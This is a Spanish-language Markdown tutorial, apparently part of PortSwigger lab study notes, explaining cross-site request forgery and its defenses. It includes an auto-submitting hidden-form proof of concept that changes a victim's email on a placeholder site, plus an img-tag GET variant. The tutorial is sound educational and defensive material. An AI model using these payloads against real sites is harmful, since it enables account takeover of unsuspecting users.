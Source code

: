 # Cross-Site Request Forgery

## 🔎 ¿Qué es CSRF?

**Cross-Site Request Forgery** es una vulnerabilidad de seguridad web que permite a un atacante inducir a un usuario autenticado a realizar acciones que no tenía intención de ejecutar. En esencia, **aprovecha la confianza que un sitio tiene en el navegador del usuario**.

El ataque CSRF permite en parte eludir la **Same Origin Policy**, una política de seguridad que impide que sitios distintos se interfieran entre sí.

---

## 🚀 Impacto de un ataque CSRF

Cuando un CSRF tiene éxito, el atacante puede:

* Cambiar la dirección de correo del usuario.
* Modificar su contraseña.
* Transferir fondos.
* Realizar cualquier acción que el usuario autenticado pueda ejecutar.

Si el usuario víctima tiene privilegios elevados, como un administrador, el atacante podría obtener control total sobre la aplicación.

---

## ⚖️ Requisitos para que un CSRF sea posible

Para que una vulnerabilidad CSRF pueda explotarse, deben cumplirse tres condiciones:

1. **Acción relevante**: Debe existir una acción que interese al atacante (por ejemplo, cambio de contraseña, email, etc.).
2. **Manejo de sesión basado en cookies**: El sitio usa **cookies automáticas** para identificar al usuario, sin ningún otro mecanismo adicional de validación (como tokens).
3. **Parámetros predecibles**: El atacante puede predecir o controlar los parámetros necesarios en la solicitud HTTP.

---

## 📁 Ejemplo de solicitud vulnerable

```
POST /email/change HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Cookie: session=abc123xyz

email=attacker@example.com
```

Si el servidor solo depende de la cookie para autenticar la sesión y no requiere token, es vulnerable.

---

## 🔧 Construcción de un ataque CSRF

El atacante puede crear una página HTML maliciosa como esta:

```html
<html>
  <body>
    <form action="https://vulnerable-website.com/email/change" method="POST">
      <input type="hidden" name="email" value="pwned@evil-user.net">
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```
Este fragmento de código representa una prueba de concepto para explotar una vulnerabilidad de tipo **Cross-Site Request Forgery**. A continuación se detalla el funcionamiento de cada parte del documento y su implicancia en el ataque.

---

## 🔍 Contexto general

La página fue creada por un atacante con el objetivo de inducir a un usuario autenticado a **enviar una solicitud POST maliciosa** al sitio `vulnerable-website.com`, sin que el usuario lo sepa.

El objetivo es cambiar el email de la cuenta del usuario víctima por `pwned@evil-user.net`.

---

## 🗋 Estructura del HTML

```html
<html>
    <body>
        <form action="https://vulnerable-website.com/email/change" method="POST">
            <input type="hidden" name="email" value="pwned@evil-user.net" />
        </form>
        <script>
            document.forms[0].submit();
        </script>
    </body>
</html>
```

### ✉️ Formulario oculto

```html
<form action="https://vulnerable-website.com/email/change" method="POST">
    <input type="hidden" name="email" value="pwned@evil-user.net" />
</form>
```

* El formulario está configurado para enviar una solicitud POST a `https://vulnerable-website.com/email/change`.
* El campo `email` tiene un valor oculto (`hidden`) que representa el correo malicioso al que el atacante quiere cambiar la cuenta del usuario.
* Este formulario no tiene botones visibles para el usuario.

### 👉 Envió automático con JavaScript

```html
<script>
    document.forms[0].submit();
</script>
```

* Apenas se carga la página, el navegador ejecuta este script.
* El script selecciona el primer formulario de la página (`forms[0]`) y lo **envía automáticamente**.
* Si el usuario está logueado en `vulnerable-website.com`, su navegador enviará también la cookie de sesión.


Si el usuario víctima visita esta página mientras está autenticado en el sitio vulnerable:

* Su navegador enviará la cookie de sesión.
* El sitio web vulnerable procesará la solicitud de forma normal, la tratará como si hubiera sido realizada por el usuario víctima y cambiará su dirección de correo electrónico.

---

## ✨ Automatización del ataque con Burp Suite

Burp Suite Professional permite generar ataques CSRF de forma automática:

1. Seleccionar una petición en Burp.
2. Clic derecho → **Engagement tools** → **Generate CSRF PoC**.
3. Burp genera el HTML necesario para explotar el CSRF.
4. Se puede editar para afinar el ataque.

Esto simplifica la creación de formularios con muchos parámetros o requests complejos.

---

## 🌐 Mecanismos de entrega de CSRF

* **HTML alojado por el atacante**: se envía por redes sociales, email, etc.
* **Comentario en sitio popular**: donde se incluya el HTML malicioso.
* **Autoejecución con `img src`** si la acción vulnerable es por GET:

```html
<img src="https://vulnerable.com/deleteUser?id=123">
```

No se necesita formularios en este caso, y puede ejecutarse con solo visitar una URL.

---

## 🛡️ Defensas contra CSRF

### 1. CSRF tokens

* Valor secreto e impredecible que el servidor incluye en formularios.
* El cliente debe reenviarlo en cada solicitud.
* Si falta o es incorrecto, se bloquea la acción.

### 2. SameSite cookies

* Evita el envío de cookies en requests cross-site.
* Desde 2021, **Chrome aplica SameSite=Lax** por defecto.
* SameSite=Strict ofrece mayor protección.

### 3. Validación Referer/Origin

* El servidor verifica que el origen de la petición coincida con el dominio válido.
* Más fácil de evadir que un CSRF token.

---

## 🔗 Recursos adicionales

* [CSRF Labs en PortSwigger Academy](https://portswigger.net/web-security/csrf)
* [SameSite cookies (Google Dev)](https://developer.chrome.com/docs/web-platform/samesite-cookies-explained/)
* [CSRF Prevention Cheat Sheet - OWASP](https://cheatsheetseries.owasp.org/cheatsheets/Cross-Site_Request_Forgery_Prevention_Cheat_Sheet.html)

---

## 🎓 Conclusiones clave

* CSRF explota el comportamiento automático de los navegadores al enviar cookies.
* Las solicitudes GET y POST son vulnerables si no hay protección.
* Las defensas modernas (tokens, SameSite, CSP) dificultan su explotación.
* Aun así, muchos sitios implementan protecciones mal configuradas.

---

[Lab: Reflected XSS into attribute with angle brackets HTML-encoded](1_Reflected_XSS_into_attribute_with_angle_brackets_HTML-encoded.md)  

![Practitioner](https://img.shields.io/badge/level-Apprentice-green) 
